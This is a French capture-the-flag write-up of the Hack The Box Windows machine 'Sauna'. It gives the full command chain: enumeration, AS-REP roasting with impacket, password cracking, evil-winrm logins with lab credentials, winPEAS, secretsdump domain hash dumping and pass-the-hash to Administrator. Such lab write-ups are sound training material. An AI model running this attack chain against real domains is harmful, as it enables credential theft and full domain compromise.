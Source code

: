 ![Pic1](../img/sauna1.PNG?raw=true) </br>

# Introduction

Sauna est une box Windows qui a pour adresse IP 10.10.10.175.</br>

Compétences mises en oeuvre :
* Enumération des ports et services d'une machine distante.
* Obtenir un ticket kerberos d'un utilisateur pour avoir son hash via impacket.
* Obtenir des hash d'utilisateurs via impacket.
* Utilisation de evil-winrm pour se connecter à distance.
</br>

# Enumération initiale

Nous commençons par l'énumération des ports et services de la box avec nmap :
```bash
$ nmap -T4 -A 10.10.10.175
```
![Pic2](../img/sauna2.PNG?raw=true) </br>

Plusieurs ports d'ouvert, nous allons faire une énumération des fichiers/dossiers du site web avec dirsearch :
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,500,404,501 -u http://10.10.10.175/
```
![Pic3](../img/sauna3.PNG?raw=true) </br>
Rien de spécial dans cette énumération... Les autres ports donneront de meilleurs résultats.

# Obtenir un accès utilisateur

Le port 88 est ouvert, nous pouvons donc tenter d'obtenir des tickets kerberos d'utilisateur avec le script de impacket : GetNPUsers.py.</br>
Le fichier user;txt en paramètre est la liste des utilisateurs vu sur le site web (au format 1ère lettre du prénom + nom).</br>
```bash
$ python3 GetNPUsers.py egotistical-bank.local/ -no-pass -usersfile user.txt
```
![Pic4](../img/sauna4.PNG?raw=true) </br>
Nous avons juste l'utilisateur fsmith qui est accepté et dont nous avons maintenant un ticket kerberos avec le hash de son mot de passe. Nous utilisons alors john pour cracker le mot de passe :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic5](../img/sauna5.PNG?raw=true) </br>
Avec un indice, j'ai refait un scan de port avec nmap car des ports hauts sont également ouverts :
```bash
$ nmap -T4 -p1-65535 10.10.10.175
```
Effectivement, le port 5985 nous intérèsse particulièrement car c'est le port par défaut. nous pouvons alors nous connecter en utilisant evil-winrm :
```bash
evil-winrm -i 10.10.10.175 --user fsmith --password Thestrokes23
```
![Pic6](../img/sauna6.PNG?raw=true) </br>
Nous avons alors le user.txt.

# Obtenir un accès administrateur
En énumérant avec winPEAS, nous obtenons un identifiant/mot de passe :
```bash
evil-winrm > upload /home/parrot/winPEASx64.exe
evil-winrm > ./winPEASx64.exe all
```
![Pic7](../img/sauna7.PNG?raw=true) </br>
Nous pouvons alors nous connecter avec ce compte et refaire une énumération avec winPEAS :
```bash
evil-winrm -i 10.10.10.175 --user svc_loanmgr --password Moneymakestheworldgoround!
evil-winrm > upload /home/parrot/winPEASx64.exe
evil-winrm > ./winPEASx64.exe all
```
Comme svc_loanmgr est un utilisateur du domaine, nous pouvons essayer de dumper des mots de passes du domaine avec un script de impacket :
```bash
$ secretsdump.py 'EGOTISTICAL/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```
![Pic8](../img/sauna8.PNG?raw=true) </br>
Plusieurs hash, mais le premier est le plus intéréssant : celui de l'Administrator, il faut savoir que evil-winrm nous permet de nous connecter avec le hash au lieu du mot de passe :
```bash
$ evil-winrm -i 10.10.10.175 -u administrator -H hash
```
![Pic9](../img/sauna9.PNG?raw=true) </br>
